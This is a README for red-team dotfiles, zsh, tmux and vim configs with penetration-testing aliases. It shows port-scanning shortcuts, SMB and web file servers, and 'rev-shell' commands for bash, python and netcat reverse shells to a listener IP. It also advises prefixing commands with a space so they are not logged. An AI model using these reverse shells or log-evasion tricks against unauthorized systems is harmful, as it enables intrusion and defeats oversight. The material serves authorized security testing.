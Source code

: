 # Red Team Dotfiles

[![Version](https://img.shields.io/badge/version-2.1.0-blue.svg)](VERSION)

Clean and focused dotfiles for **zsh**, **tmux**, and **vim** tailored for red team operations and penetration testing. No over-engineering, just the essentials.

## ✨ Features

- 🔴 **Red Team Focused**: Aliases and functions for penetration testing
- 🎯 **Warp Terminal Optimized**: Enhanced for modern terminal experience
- 🌐 **Network Tools**: IPv4/IPv6 IP detection with service redundancy
- 🛡️ **OPSEC Aware**: Commands starting with space aren't logged
- ⚡ **Fast & Clean**: Minimal overhead, maximum functionality
- 🔧 **Cross-Platform**: Works on macOS, Linux, and WSL2

## 🚀 Installation

### Prerequisites
- [Zsh](https://www.zsh.org/) - Shell
- [Tmux](https://github.com/tmux/tmux/wiki) - Terminal multiplexer  
- [Vim](https://www.vim.org/) - Text editor

### Quick Install
```bash
# Clone the repository
git clone https://github.com/Maleick/dotfiles.git /opt/dotfiles
cd /opt/dotfiles

# Run the install script
./install.sh
```

### What it does
1. Creates backup of existing dotfiles
2. Symlinks zsh, tmux, and vim configurations
3. Sets up red team aliases and functions

### Verify Installation
```bash
# Restart your shell or run
source ~/.zshrc

# Check available commands
/help
```

## 💻 Usage Examples

### Network Reconnaissance
```bash
# External IP Detection (IPv4/IPv6) 
myip                       # External IPv4 address (force IPv4)
myip4                      # Explicit IPv4 version
myip6                      # External IPv6 address
myip-alt                   # Alternative service (ipinfo.io)
myip-check                 # Backup service (icanhazip.com)
get_external_ip            # Store IP in $EXTERNAL_IP variable
localip                    # Local IP address
netinfo                    # Complete network information

# Port Scanning
quickscan 192.168.1.0/24   # Fast subnet scan
nmap-top-ports 192.168.1.1 # Scan top 1000 ports
```

### Web Servers & Tools
```bash
webserver                  # HTTP server on port 8080
smbserver                  # SMB share current directory
https-server               # HTTPS server (needs cert.pem/key.pem)
```

### Encoding/Decoding
```bash
base64encode "test data"   # dGVzdCBkYXRh
base64decode "dGVzdCBkYXRh" # test data
urlencode "hello world"    # hello%2Bworld
rot13                      # ROT13 cipher
```

### Reverse Shells
```bash
rev-shell bash 10.0.0.1 4444    # Bash reverse shell
rev-shell python 10.0.0.1 4444  # Python reverse shell
rev-shell nc 10.0.0.1 4444      # Netcat reverse shell
```

### Tmux Features
```bash
tmux                       # Start tmux session
# Prefix + P              # Start/stop recording
# Prefix + S              # Save pane history
```

## 🔒 OPSEC Notes

- **Commands starting with space aren't logged** - Use ` command` for sensitive operations
- **Use only on authorized systems** - Respect applicable laws and regulations
- **Backup created automatically** - Install script backs up existing configs

## 🔄 Updates

```bash
# Update to latest version
cd /opt/dotfiles
git pull

# Check current version
cat VERSION
```

## 📝 Available Commands

```bash
# See all available red team commands
/help
```

---

**Note**: This project is for educational and authorized security testing only. Use responsibly and respect all applicable laws.

🔴 **Happy Red Teaming!** 🔴
